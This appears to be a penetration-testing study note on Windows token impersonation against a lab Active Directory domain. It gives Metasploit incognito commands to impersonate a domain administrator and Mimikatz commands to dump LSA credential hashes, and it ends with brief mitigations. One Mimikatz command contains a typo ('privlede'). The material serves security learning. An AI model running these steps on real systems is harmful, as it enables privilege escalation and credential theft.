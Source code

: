 # Token Impersonation

## What are Tokens

* temp keys that allow you to have access to a system/network
* acts as a replacement to credentials, so you do not have to keep typing in a user and password
* in simpler terms, they are cookies for computers

## Two Types of Tokens

### delegate

* created for logging into a machine or for using it with Remote Desktop Protocol lasts until the computer is rebooted

### impersonate

* “non-interactive” such as attaching a network drive or a domain login script

## Token Impersonation Method

### Step 1: Get Ready

* pop a shell

```bash
load incognito #(a Metasploit module)
help
```

* can also use Mimikatz or Kiwi

### Step 2: Impersonate a Domain User

```bash
list_tokens -u
impersonate_token marvel\\fcastle #(two slashes cause of char escape)
shell #yes this is a command
```

### Step 3: Attempt to Dump Hashes as Non-Domain Admin \(different machines have different tokens\)

```bash
Invoke-Mimikatz -Command ‘"privilege::debug" “LSADump::LSA /inject” exit’ -Computer HYDRA.marvel.local
```

* most likely will fail
* or you can try hashdump \(if it fails to “rev2self” and run it again\)

### Step 4: Identify Domain Admin

```bash
list_tokens -u #(Meterpreter shell command)
```

### Step 5: Impersonate an Admin

```bash
impersonate_token marvel\\administrator
whoami
```

### Step 6: Attempt to Dump Hashes as a Domain Admin

```bash
Invoke-Mimikatz -Command ‘"privlede::debug" “LSADump::LSA /inject” exit’ -Computer HYDRA.marvel.local
```

* or you can also do hashdump \(if it fails to “rev2self” and run it again\)

## Mitigation

* limit user/group token creation permissions
* account tiering
* local admin restriction

